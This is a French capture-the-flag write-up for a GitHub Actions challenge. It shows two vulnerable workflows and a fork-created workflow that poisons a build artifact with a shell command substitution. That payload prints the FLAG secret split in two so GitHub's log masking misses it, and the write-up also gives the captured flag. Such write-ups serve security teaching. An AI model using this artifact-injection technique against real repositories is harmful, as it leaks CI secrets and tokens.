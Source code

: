 # D-8 GitHub Workflows - Iran

## Intro

Pour cette track, un repo Github read-only avec des [Github Actions workflows](https://docs.github.com/en/actions).
Chaque workflow constitue un des challenges de la track et ont tous comme but d'extraire le flag des Secrets du workflow et suit généralement l'ordre suivant:

1. Trouver comment activer le workflow
2. Trouver la faille dans le worflow
3. Executer l'exploit.

Note: Github cache les secrets et certaines transformations connue (ex. hex, base64) des logs par défault.

# Challenge

Le challenge de la track D8:

```yaml
name: Iran

on:
  workflow_run:
    workflows: ["PR Information"]
    types:
      - completed

permissions: 
  pull-requests: read
  contents: read
  actions: read

jobs:
  tehran:
    if: github.event.workflow_run.conclusion == 'success'
    timeout-minutes: 5
    runs-on: ubuntu-latest
    env:
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
      FLAG: ${{ secrets.FLAG_IRAN }}
    steps:
      - name: Download PR details artifact
        uses: actions/download-artifact@v4
        with:
          name: pr-details
          github-token: ${{ secrets.GITHUB_TOKEN }}
          run-id: ${{ github.event.workflow_run.id }}
      - name: Parse artifact with awk
        id: parser
        run: |
          additions=$(awk -F '"' '/Additions/ {print $2}' pr_details.md)
          echo "additions=$additions" >> "$GITHUB_OUTPUT"
      - run: |
          echo "Number of additions: ${{ steps.parser.outputs.additions }}"

```

Workflow secondaire:

```yaml
name: PR Information
on:
  pull_request_target:
    types:
      - opened
      - edited
      - synchronize

jobs:
  build:
    timeout-minutes: 5
    runs-on: ubuntu-latest
    permissions:
      contents: read
      actions: write
    env:
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - uses: actions/checkout@v4
      - name: Generate PR details
        id: pr_details
        run: |
          echo " \
          ### PR Details \
          * **Author**: @${{ github.event.pull_request.user.login }} \
          * **Commits**: ${{ github.event.pull_request.commits }} \
          * **Changes**: ${{ github.event.pull_request.changed_files }} files \
          * **Additions**: "${{ github.event.pull_request.additions }}" \
          * **Deletions**: "${{ github.event.pull_request.deletions }}" \
          " > pr_details.md
      - name: Upload PR details as artifact
        uses: actions/upload-artifact@v4
        with:
          name: pr-details
          path: pr_details.md

  comment:
    timeout-minutes: 5
    needs: build
    runs-on: ubuntu-latest
    permissions:
      pull-requests: write
      actions: read
      contents: read
    steps:
      - uses: actions/checkout@v4
      - name: Download PR details artifact
        uses: actions/download-artifact@v4
        with:
          name: pr-details
      - name: Comment on PR
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
        run: |
          gh pr comment ${{ github.event.pull_request.number }} --body-file pr_details.md

```


### Trouver comment activer le workflow

Ce workflow est dépendant d'un autre workflow ayant pour nom "PR Information".


Le premier workflow lit un fichier créer par "PR Information" et affiche l'information dans la console.

### Trouver la faille dans le worflow

Puisque le workflow dépend seulement d'un workflow ayant pour nom "PR Information". Rien n'empêche de créer notre propre workflow et d'écrire ce que l'on veut dans l'archive. 

### Exploit

En activant les github actions dans le fork et en créant un nouveau workflow qui s'execute dans les PR, on peut forcer le premier workflow à s'executer. 

```yaml
name: PR Information

on: [pull_request]

jobs:
  job:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Generate PR details
        id: pr_details
        run: |
          echo "Additions: \"\$(echo \${FLAG:0:8}--\${FLAG:8} )\"" > pr_details.md
      - name: Upload PR details as artifact
        uses: actions/upload-artifact@v4
        with:
          name: pr-details
          path: pr_details.md
```

![workflow](./assets/iran-workflow.png)

---
## Flag:

`flag-iran-e8aad09cfa0a`
